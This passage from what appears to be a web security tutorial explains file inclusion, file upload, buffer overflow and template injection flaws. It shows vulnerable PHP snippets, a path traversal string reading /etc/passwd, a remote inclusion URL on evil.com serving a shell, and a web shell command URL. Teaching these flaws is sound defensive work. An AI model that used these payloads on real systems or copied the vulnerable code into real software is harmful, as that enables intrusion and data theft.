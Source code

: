 **Mitigation Tip:** Avoid native serialization like `pickle` or Java’s `ObjectInputStream`. Use safe formats like JSON.

---

## **File Inclusion Vulnerabilities (LFI & RFI)**

[![File Inclusion Vulnerabilities](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fi8t8lg9q3yny4zchgjqq.png align="left")](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fi8t8lg9q3yny4zchgjqq.png)

When applications dynamically include files based on user input:

```plaintext
<?php include($_GET['page'].".php"); ?>
```

Attackers can exploit this for **Local File Inclusion** (`../../etc/passwd`) or **Remote File Inclusion** ([`http://evil.com/shell.txt`](http://evil.com/shell.txt)).

---

## **File Upload Vulnerabilities**

Unvalidated file uploads allow attackers to deploy malicious scripts:

```plaintext
move_uploaded_file($_FILES['file']['tmp_name'], "uploads/".$_FILES['file']['name']);
```

If `shell.php` is uploaded, it can be triggered with:  
  
[`example.com/uploads/shell.php?cmd=ls`](http://example.com/uploads/shell.php?cmd=ls)

---

## **Buffer Overflow: Old But Gold**

Often seen in native-code applications, buffer overflows let attackers overwrite memory—including return addresses—to hijack control flow and run injected shellcode.

Though rare in high-level web frameworks, these remain relevant in **embedded web servers**, **C/C++ backends**, or **IoT admin panels**.

---

## **Server-Side Template Injection (SSTI)**

[![Server-Side Template Injection](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Ftnlkymfi01v5lpouobbh.png align="left")](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Ftnlkymfi01v5lpouobbh.png)
